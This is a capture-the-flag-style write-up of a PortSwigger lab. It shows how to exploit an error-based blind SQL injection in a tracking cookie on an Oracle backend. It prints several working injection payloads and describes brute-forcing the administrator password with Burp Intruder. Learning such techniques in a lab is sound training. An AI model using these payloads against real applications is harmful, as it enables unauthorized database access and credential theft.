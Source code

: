 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Captured the http page in burpsuite

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/939b26f8-8ddc-42e3-a97d-303a4660cf28)

appending the `'` to the tracking id and verify that error message is shown

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/ae8b1bae-f2c4-434f-8c55-bdd4fde6441a)

giving 2 `'` the error is gone so the syntax is right

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/9948e1fd-f7a3-41e2-b8ba-2d469451d7d5)

now giving `''||(SELECT ''FROM )||'` we get error

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/a079ecfd-cea4-454c-a4e9-718d5531d4b1)

now giving `''||(SELECT ''FROM dual)||'` the error is gone so the syntax is correct.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/25613ed2-63fb-4677-ad7a-bdea4c9e9537)

No error we got respones.So it is orcal database.

the payload `'||(SELECT '' FROM not-a-real-table)||'` gives error because the table does not exist

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/b8054eba-55bf-479e-b96c-bebadd3a263b)


### Check Whether the users table is present 

`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'` 

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/93036487-9992-436f-9a5d-a66b07aaeb65)

No error so there exist a table users.

### Check Whether the username administrator is present in users table

the payload `'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'` is given

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/640cb04a-354b-48ef-8bfb-ebc1ab1f47c7)

We receive an error. means the condition is TRUE and username administrator is present in users table.

### Determine the length of admin's password

giving length as 15 error message recived so the condition is true

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/ae9d5c46-7470-43d7-be1f-008c017f601f)

giving length as 25 error message is not recived so condition is false, so the password range is between 15~25

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/d9c4be96-17c8-4df0-affd-699941dfadd5)

To find the length of the password send qury to  Intruder then and Add the password length part as payload and select attack type as SNIPER.
Then go to  payload sleect payload type as numbers after that set from 1 to 25 and start the attack 

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/adbc7c01-5ded-4a89-b071-5f851d6dc01d)

the result has error till 19 so 20 is the exact length of the password.

### Finding the 20 characters length password by Brute force

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/fc12686a-4b84-4689-a142-322f037ce99c)

`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

a is not the first letter of the password.

To find the first character of the password send qury to  Intruder then and Add the string part as payload and select attack type as Cluster Bomb .
Then go to  payload sleect payload type as bruteforce set min and max =1  and start the attack 

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/e0865691-c5ac-459f-a358-3489a5f46c66)

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/36b84ad7-ddcf-4176-868a-bcb50d5b548f)

the password is got as `furqyd5eyu1ij9awrgq8`

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/b7d2a169-4adb-495b-816f-ca74cf71b3f4)

Logged in as administrator, solved the lab successfully



